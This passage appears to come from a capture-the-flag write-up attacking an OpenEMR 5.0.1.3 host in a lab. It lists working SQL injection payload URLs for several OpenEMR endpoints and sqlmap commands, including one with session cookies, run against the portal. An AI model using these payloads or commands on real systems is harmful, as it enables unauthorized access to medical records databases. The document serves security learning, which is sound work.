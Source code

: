 ```
[22:03:36] [WARNING] you haven't updated sqlmap for more than 84 days!!!

[*] ending @ 22:03:36 /2020-07-14/
```

It's kinda working but pretty slow and unstable, so let's find another endpoint as it seems there
are many SQLi.

There is a document [OpenEMR v5.0.1.3 - Vulnerability Report](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf)
for exactly the same version as us. A dozen of SQLi are listed here.

```
portal/find_appt_popup_user.php?catid=1' AND (SELECT 0FROM(SELECT COUNT(*),CONCAT(@@VERSION,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -

portal/add_edit_event_user.php?eid=1 AND EXTRACTVALUE(0,CONCAT(0x5c,VERSION()))

interface/forms/eye_mag/php/Anything_simple.php?display=i&encounter=1' AND (SELECT 0 FROM(SELECT COUNT(*),CONCAT(@@VERSION,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -&category_name=POSTSEG

interface/forms_admin/forms_admin.php?id=32' OR (SELECT 0 FROM(SELECT COUNT(*),CONCAT(@@VERSION,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -&method=enable

interface/de_identification_forms/find_code_popup.php?search_status=1&search_term=')+or+updatexml(null,concat(0x0a,version()),null)--+-&bn_search=Search

interface/de_identification_forms/find_immunization_popup.php?search_status=1&search_term=')+or+updatexml(null,concat(0x0a,version()),null)--+-&bn_search=Search

interface/de_identification_forms/find_code_popup.php?search_status=1&search_term=')+or+updatexml(null,concat(0x0a,version()),null)--+-&bn_search=Search
```

The ones in 3.1 and 3.2 (portal) seems to give a SQL error while those from 3.3
to 3.9 seem to require authentication.

![](https://i.imgur.com/Kv25meC.png)

Those two request won't works because we need valid cookies even if the attack is unauthenticated.
Also we need to fill the registration form with random data even if we never receive the confirmation email, this will set a valid cookie.

```
$ sqlmap -u 'http://hms.htb/portal/add_edit_event_user.php?eid=1' -p eid --random-agent --threads 10 --batch -b
$ sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?catid=1' -p catid --random-agent --threads 10 --batch -b
```

So we have to add the `--cookie` option:

```
$ sqlmap -u 'http://hms.htb/portal/add_edit_event_user.php?eid=1' -p eid --cookie 'OpenEMR=jcn4a7ce07kbngbo7r9rolttgu; PHPSESSID=fcfeq8h77phga1bs6b1cshh64e' --random-agent --threads 10 --batch -b
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

```
